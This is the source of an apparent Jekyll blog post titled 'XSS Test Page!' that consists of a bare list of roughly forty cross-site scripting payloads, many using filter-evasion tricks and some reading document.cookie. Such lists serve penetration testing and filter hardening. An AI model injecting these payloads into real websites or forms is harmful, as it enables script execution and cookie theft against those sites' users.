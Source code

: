 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```


Some of the great XSS payloads used by experts in security industry,

'"></title></script><img src=x onerror=confirm(1)>
<a href="javascript:{ js code here}"> POC </a>
<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(document.domain)// </b> 
“><svg/onload=alert(document.domain)>”@x.y
<marquee onstart=alert(1)>
'>"><svg/onload=alert()>
<marquee loop=1 width=0 onfinish=co\u006efirm(document.cookie)>XSS</marquee>
ᐸsvg/onload=alert(1)ᐳ
<svg onload=alert(0)>
"><textarea> <-
</</script>script> <</svg>svg/onload=prompt`${document.cookie}`>
javascript:prompt (document.cookie)
script ~~~>alert(0%0)</script ~~~>
<style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>
<svg><style>'<body/onload=confirm(1)>'
<iframe/%00/ src=javaSCRIPT&colon;alert(/hhhh/)
//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//
<img onerror="{alert`1`}" src>
<style>@keyframes a{}b{animation:a;}</style>
<b/onanimationstart=prompt`${document.domain}&#x60;>
<d3v/onauxclick=[2].some(confirm)>click
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>
<<meh<meh>svg/onload=alert(1)>
</script></><script>confirm(document.domain)</script>
${7*7}{{7*7}}"--></script><img/src=x onerror=';alert(0);'>
"onmouseover="confirm/()"//
"><img src=n onerror=prompt(1)>
"><script>alert(0);</script>
“><img src=x onerror=prompt(0);>
"--!><Svg/OnLoad=(confirm)(1)>"
<details ontoggle=prompt()>
<a href=“JavaScript:alert(1)”>test</a>
<body onload=alert()>
“/dd><marquee loop=1 onFinish=‘alert(1)’>asdf</marquee>
"<script>alert(3)</script>"
"><ScRipt><img src="" alert(1);></ScRipt>

